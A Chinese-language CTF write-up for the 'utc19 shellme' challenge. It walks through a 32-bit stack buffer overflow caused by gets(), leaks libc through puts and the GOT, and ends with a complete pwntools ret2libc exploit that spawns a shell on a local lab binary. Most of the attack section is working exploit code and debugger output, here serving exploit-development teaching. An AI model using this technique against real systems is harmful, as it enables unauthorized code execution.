

# 2.G utc19 shellme
首先查看文件

```bash
vuln@ubuntu:~/nightmare/modules/08-bof_dynamic/utc19_shellme$ pwn checksec server 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

server: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=be2f490cdd60374344e1075c9dd31060666bd524, not stripped
```
没有开启PIE和canary stack，接着运行程序

```bash
vuln@ubuntu:~/nightmare/modules/08-bof_dynamic/utc19_shellme$ ./server 

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xbfb73e50 | 00 00 00 00 00 00 00 00 |
0xbfb73e58 | 00 00 00 00 00 00 00 00 |
0xbfb73e60 | 00 00 00 00 00 00 00 00 |
0xbfb73e68 | 00 00 00 00 00 00 00 00 |
0xbfb73e70 | ff ff ff ff ff ff ff ff |
0xbfb73e78 | ff ff ff ff ff ff ff ff |
0xbfb73e80 | a0 75 78 b7 00 a0 04 08 |
0xbfb73e88 | 98 3e b7 bf 8b 86 04 08 |
Return address: 0x0804868b

Input some text: aaaaaaaaaa 

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xbfb73e50 | 61 61 61 61 61 61 61 61 |
0xbfb73e58 | 61 61 00 00 00 00 00 00 |
0xbfb73e60 | 00 00 00 00 00 00 00 00 |
0xbfb73e68 | 00 00 00 00 00 00 00 00 |
0xbfb73e70 | ff ff ff ff ff ff ff ff |
0xbfb73e78 | ff ff ff ff ff ff ff ff |
0xbfb73e80 | a0 75 78 b7 00 a0 04 08 |
0xbfb73e88 | 98 3e b7 bf 8b 86 04 08 |
Return address: 0x0804868b

```
我们可以在这里直接看到，我们输入了10个A，然后它输出了用户的输入地址到EIP地址之间内存中的值。

接下来我们使用IDA来查看程序

```bash
int vuln()
{
  char s[32]; // [esp+0h] [ebp-38h] BYREF
  char v2[20]; // [esp+20h] [ebp-18h] BYREF

  memset(s, 0, sizeof(s));
  memset(v2, 255, 0x10u);
  init_visualize(s);
  visualize(s);
  printf("Input some text: ");
  gets(s);
  return visualize(s);
}
```
可以看到s只分配了32个长度，但是程序并没有做输入校验，所以这里造成了溢出。s到eip的距离为0x38 +4 = 60，知道了这个我们就可以构造ROP来泄漏libc的地址了。

但是这个是在vuln函数中，所以我们泄漏完地址之后还要回到vuln函数，让程序正常运行。从导入函数列表中得到如下导入函数，所以我们只需要找到 /bin/sh 在libc中的偏移，然后调用导入的system函数，就可以执行任意命令了。



我们这里使用puts函数来泄漏puts函数的地址，在X86中，如果在栈中传递参数，puts函数的参数在puts栈地址4个字节后面，我们可以从下面的图中清楚的看出来


所以此时如果puts函数的地址为%esp+10，那么它的参数地址就是%esp+14，中间保存着vuln函数的返回地址。所以此时的ROP如下；

```python
elf.symbols['puts']
vuln addr   #  0x08048686 <+70>:    call   0x80485b1 <vuln>
elf.got['puts']
```
这样在执行完puts函数输出puts函数的地址之后，就又会返回vuln函数，等待下一次的输入，下次输入的时候，我们就可以调用system来执行shell了。

接下来我们在libc中寻找/bin/sh字符串的偏移量

```bash
gef➤  vmmap 
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-x /home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server
0x08049000 0x0804a000 0x00000000 r-- /home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server
0x0804a000 0x0804b000 0x00001000 rw- /home/vuln/nightmare/modules/08-bof_dynamic/utc19_shellme/server
0xb7e17000 0xb7e18000 0x00000000 rw- 
0xb7e18000 0xb7fc8000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xb7fc8000 0xb7fc9000 0x001b0000 --- /lib/i386-linux-gnu/libc-2.23.so
0xb7fc9000 0xb7fcb000 0x001b0000 r-- /lib/i386-linux-gnu/libc-2.23.so
0xb7fcb000 0xb7fcc000 0x001b2000 rw- /lib/i386-linux-gnu/libc-2.23.so
0xb7fcc000 0xb7fcf000 0x00000000 rw- 
0xb7fd6000 0xb7fd7000 0x00000000 rw- 
0xb7fd7000 0xb7fda000 0x00000000 r-- [vvar]
0xb7fda000 0xb7fdb000 0x00000000 r-x [vdso]
0xb7fdb000 0xb7ffe000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xb7ffe000 0xb7fff000 0x00022000 r-- /lib/i386-linux-gnu/ld-2.23.so
0xb7fff000 0xb8000000 0x00023000 rw- /lib/i386-linux-gnu/ld-2.23.so
0xbffdf000 0xc0000000 0x00000000 rw- [stack]
gef➤  search-pattern '/bin/sh'
[+] Searching '/bin/sh' in memory
[+] In '/lib/i386-linux-gnu/libc-2.23.so'(0xb7e18000-0xb7fc8000), permission=r-x
  0xb7f73b0b - 0xb7f73b12  →   "/bin/sh" 
gef➤


>>> 0xb7f73b0b - 0xb7e18000
1424139
>>> hex(1424139)
'0x15bb0b'
>>> 
```
现在这些元素都齐了，那么就可以开始构造EXP了

```python

from pwn import *

target = process('./server')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
elf = ELF('./server')


payload = ''
payload += '0'*0x3c
payload += p32(elf.symbols['puts'])
payload += p32(elf.symbols['vuln'])
payload += p32(elf.got['puts'])

target.sendline(payload)
print target.recvuntil('Return address:')       # 这里需要两次接收return address，第一次是第一次调用时候输入text之后返回的输出结果的return address
print target.recvuntil('Return address:')       # 第二次是ROP执行之后，获取用户输入时候的return address
print target.recvline()                         # 然后接着2次的接收空行，是把return addr 后面的空行和Input some text给过滤掉
print target.recvline()

leak = u32(target.recvline()[0:4])              # 这里就是ROP puts函数输出puts的地址了
base = leak - libc.symbols['puts']

print 'leak addr: ' + hex(base)

binsh = 0x15bb0b

payload = ''
payload += '0'*0x3c
payload += p32(base + libc.symbols['system'])
payload += p32(0x30303030)              # rewrite eip address value
payload += p32(base + binsh)

target.sendline(payload)
target.interactive()

```
参考文档：

https://ctftime.org/writeup/17570